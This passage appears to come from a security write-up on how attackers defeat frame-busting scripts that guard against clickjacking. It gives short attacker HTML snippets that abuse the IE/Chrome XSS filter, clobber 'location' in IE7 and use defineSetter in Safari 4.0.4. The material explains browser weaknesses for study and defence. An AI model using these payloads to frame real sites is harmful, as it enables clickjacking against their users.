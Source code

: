 **Victim frame busting code:**

```html
<script>
    if(top != self) {
        top.location = self.location;
    }
</script>
```    

**Attacker:**

```html
<iframe src="http://www.victim.com/?v=<script>if''>
```    

The XSS filter will match that parameter `<script>if` to the beginning of the frame busting script on the victim and will consequently disable all inline scripts in the victim's page, including the frame busting script. The XSSAuditor filter available for Google Chrome enables the same exploit.

## Clobbering top.location

Several modern browsers treat the location variable as a special immutable attribute across all contexts. However, this is not the case in IE7 and Safari 4.0.4 where the location variable can be redefined.

**IE7**: Once the framing page redefines location, any frame busting code in a subframe that tries to read `top.location` will commit a security violation by trying to read a local variable in another domain. Similarly, any attempt to navigate by assigning `top.location` will fail.

**Victim frame busting code:**

```javascript
if(top.location != self.location) {
    top.location = self.location;
}
```    

**Attacker:**

```html
<script>var location = "clobbered";</script>
<iframe src="http://www.victim.com"></iframe>
```    

**Safari 4.0.4**

We observed that although location is kept immutable in most circumstances, when a custom location setter is defined via `defineSetter` (through window) the object location becomes undefined. 

The framing page simply does:

```html
<script>
    window.defineSetter("location", function(){});
</script>
```  

Now any attempt to read or navigate the top frame's location will fail.
